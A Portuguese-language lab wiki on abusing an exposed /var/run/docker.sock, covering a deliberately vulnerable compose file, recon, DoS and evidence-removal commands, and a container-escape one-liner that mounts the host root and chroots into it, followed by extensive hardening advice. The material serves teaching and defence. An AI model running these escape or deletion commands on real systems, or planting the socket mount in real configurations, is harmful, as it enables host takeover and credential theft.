

# 📖 WIKI: Abuso de Docker Socket e Escalada de Privilégio

## (Laboratorio Controlado - Seguranca em Containers)

---

> [!CAUTION]
> **AVISO DE ÉTICA E RESPONSABILIDADE**
> O uso indevido pode configurar ilícitos civis e penais. Este conteúdo é disponibilizado exclusivamente para fins:

- educacionais;
- laboratoriais;
- pesquisa em ambiente controlado.

🚫 É vedada sua utilização em:

- ambientes de produção;
- sistemas de terceiros sem autorização formal;
- qualquer contexto que viole normas legais.

⚖️ O uso indevido pode configurar ilícitos civis e penais.

👉 Execução permitida apenas em:
Laboratório isolado (Docker Lab  / VM dedicada / rede segregada).

---

## 🎯 1. Introdução ao Abuso do Docker Socket

O Docker Socket:

```bash
/var/run/docker.sock
```

é a interface de comunicação entre o cliente Docker e o daemon no host.

👉 Característica crítica:

- o daemon Docker roda com privilégios elevados (root)

👉 Consequência:
qualquer entidade com acesso ao socket pode interagir com o Docker **como se fosse o próprio host**.

---

## 📌 2. Por que o docker.sock e compartilhado? (Motivacoes Reais)

Antes de demonizar a prática, é essencial compreender:

### 2.1 Casos legitimos de uso

- ferramentas de monitoramento (ex: Prometheus exporters, cAdvisor)
- plataformas de CI/CD (build e deploy automatizado)
- sistemas de observabilidade
- automação de infraestrutura
- backup e gestão de containers

👉 Problema:
essas soluções frequentemente exigem acesso ao Docker API

---

### 2.2 Onde nasce o risco?

Quando:

- o acesso não é restrito
- não há controle de comandos
- qualquer container recebe acesso irrestrito
- não há isolamento ou proxy

👉 Resultado:
uma ferramenta legítima se torna vetor de ataque

---

### 2.3 Classificacao tecnica

👉 Trata-se **primariamente de uma _misconfiguration_ (falha de configuração)**  
👉 que **pode ser explorada como vetor de escalada de privilégio**

A exposição do:

```bash
/var/run/docker.sock
```

não decorre de:

- bug de software  
- falha de implementação do Docker  
- vulnerabilidade (CVE)

👉 Trata-se de uma **decisão de configuração inadequada**

> Portanto, na sua essência, é uma **falha arquitetural / operacional (misconfiguration)**

---

### 2.4 Quando passa a ser "exploit"?

A partir do momento em que um agente:

- identifica a exposição  
- utiliza essa condição para executar ações não autorizadas  
- rompe o isolamento entre container e host  

👉 ocorre uma **exploração de condição insegura**

---

### 2.5 Enquadramento em seguranca

#### 2.5.1 Padroes (OWASP e boas praticas)

Este cenário se enquadra como:

- **Security Misconfiguration**  
- **Broken Isolation**  
- **Excessive Privileges**

---

#### 2.5.2 Classificacao profissional

Em relatórios técnicos, recomenda-se descrever como:

👉 **"Critical Misconfiguration Leading to Privilege Escalation"**

ou em português:

👉 **"Falha crítica de configuração permitindo escalada de privilégio"**

---

### 2.6 Modelo de redacao para relatorio

> Foi identificada a exposição indevida do arquivo `/var/run/docker.sock` no container analisado, caracterizando falha de configuração crítica.  
> Tal condição permite interação direta com o daemon Docker do host, podendo ser explorada para escalada de privilégios e comprometimento do ambiente.

---

### 2.7 Conclusao tecnica

👉 Não se trata de um exploit por si só  
👉 Não é uma vulnerabilidade nativa do Docker  

✔ Trata-se de uma **configuração insegura altamente explorável**

---

## 🧪 3. Configuração do Laboratório (Cenário Vulnerável)

### 3.1 Pre-requisitos do laboratorio

Antes de executar, garanta:

- ambiente isolado (VM dedicada ou rede segregada);
- Docker Engine funcional no host;
- permissao para executar comandos Docker;
- uso exclusivo em contexto educacional/laboratorial.

### 3.2 Exemplo de servico vulneravel

Exemplo de servico vulneravel:

```yaml
services:
  vulnerable-app:
    image: alpine
    container_name: app_vulneravel
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    command: sh -c "apk add --no-cache docker-cli && sleep infinity"
    networks:
      - lab_vulneravel
```

## 🔍 4. Etapas tecnicas

### 4.1 Fluxograma



### 4.2 Reconhecimento

Objetivo: identificar a exposicao do socket dentro do container `vulnerable-app`.

```bash
ls -la /var/run/docker.sock
```

Verificar:

- existência
- permissões
- grupo associado

### 4.3 Validação de Acesso

Objetivo: validar se o container consegue interagir com o daemon Docker do host.

Comandos:

- docker ps
- docker images

👉 Se houver retorno:

- o container possui acesso ao daemon

### 4.4 Impacto Técnico (Explicação)

Com esse nivel de acesso, um agente malicioso poderia:

- listar containers
- parar serviços críticos (DoS)
- manipular ambiente
- criar novos containers

⚠️ Isso já configura falha crítica.

### 4.5 Escalada de Privilégio (Explicação Técnica)

#### 4.5.1 Manipulacao de infraestrutura (nivel medio)

Com acesso ao socket, o atacante pode realizar ações administrativas no ambiente Docker do Host.
Isso demonstra que o isolamento foi quebrado.

A partir do container `vulnerable-app`:

- Listar todos os containers do host:

```bash
docker ps
```

- Interromper um servico (DoS):

```bash
docker stop [ID_DO_CONTAINER]
```

- Remover evidencias (logs/containers):

```bash
docker rm -f [ID_DO_CONTAINER]
```

### 4.6 Escalada de privilegio para o host (nivel critico)

Objetivo: sair do container e obter contexto `root` no host.

Para isso, cria-se um container "parasita".

```bash
# Criar um container Alpine que monta a raiz (/) do host no diretório /host_system do container
docker run -it -v /:/host_system alpine chroot /host_system
```

O que aconteceu tecnicamente?

Montagem de volume: o comando `-v /:/host_system` diz ao Docker para montar a raiz do host no container.

`chroot`: o comando `chroot /host_system` muda a visao do terminal, tratando esse caminho como raiz do sistema operacional.

**Resultado tecnico:** acesso amplo a artefatos sensiveis do host, incluindo `/etc/shadow`, `/root/` e chaves SSH.

## 🛡️ 5. Proteção e Mitigação (Hardening de Containers)

Esta seção constitui o núcleo formativo do Administrador de Sistemas e do profissional de Segurança da Informação.

Não se trata de uma recomendação facultativa, mas de diretrizes técnicas que devem ser observadas para evitar a materialização de riscos críticos.

---

### 5.1 Principio do privilegio minimo

É terminantemente recomendado:

👉 NÃO montar o `/var/run/docker.sock` em containers que:

- possuam exposição externa (Web, APIs, serviços públicos);
- recebam requisições de usuários;
- integrem aplicações críticas.

⚠️ Fundamentação técnica:
A exposição do socket permite interação direta com o daemon Docker, comprometendo o isolamento e possibilitando controle indireto do host.

---

#### 5.1.1 Alternativa segura

Quando houver necessidade legítima (ex: monitoramento):

Utilizar:

👉 docker-socket-proxy

- Permite controle granular de acesso
- Restringe operações a leitura (GET)
- Bloqueia operações destrutivas (POST, DELETE)

👉 Resultado:
Observabilidade mantida sem concessão irrestrita de privilégio.

---

### 5.2 Docker Rootless (isolamento estrutural)

Deve-se adotar, sempre que possível:

👉 Docker em modo **Rootless**

- O daemon opera com privilégios de usuário comum
- Reduz o impacto de comprometimento
- Impede escalada direta para root no host

⚠️ Interpretação técnica:
Mesmo que o socket seja exposto, o alcance do agente será limitado ao contexto não privilegiado.

---

### 5.3 Uso de usuarios non-root

É diretriz obrigatória de segurança:

👉 Containers não devem executar como root

No Dockerfile:

```dockerfile
USER appuser
```

- Reduz a superfície de ataque
- Limita acesso a recursos do sistema
- Dificulta exploração de vulnerabilidades

⚠️ A execução como root amplia significativamente o impacto de qualquer falha.

### 5.4 Controles complementares (defesa em profundidade)

Os controles abaixo devem ser aplicados de forma **cumulativa**, compondo uma estratégia efetiva de segurança em camadas:

- utilização de **AppArmor** ou **SELinux** para restrição de comportamento
- limitação de **capabilities Linux** (redução de privilégios do container)
- evitar o uso de `privileged: true`
- restrição de volumes montados a partir do host
- segmentação de rede entre containers (isolamento lateral)
- revisão contínua de arquivos `docker-compose.yml`
- controle rigoroso de acesso ao grupo `docker` no host

---

### 5.5 Diretriz estrategica

A segurança em ambientes Docker deve observar, de forma estruturante:

- **Minimização de privilégios**
- **Isolamento efetivo**
- **Controle rigoroso de exposição**

---

### 5.6 Conclusao tecnica

O risco não decorre da tecnologia Docker.

👉 Decorre, essencialmente, da **concessão indevida de privilégios**.

Ambientes seguros são fruto de:

- arquitetura bem definida;
- decisões conscientes;
- governança técnica contínua.

---

### Encerramento

Este conteudo deve ser utilizado somente em laboratorio controlado, com autorizacao formal e finalidade educacional.
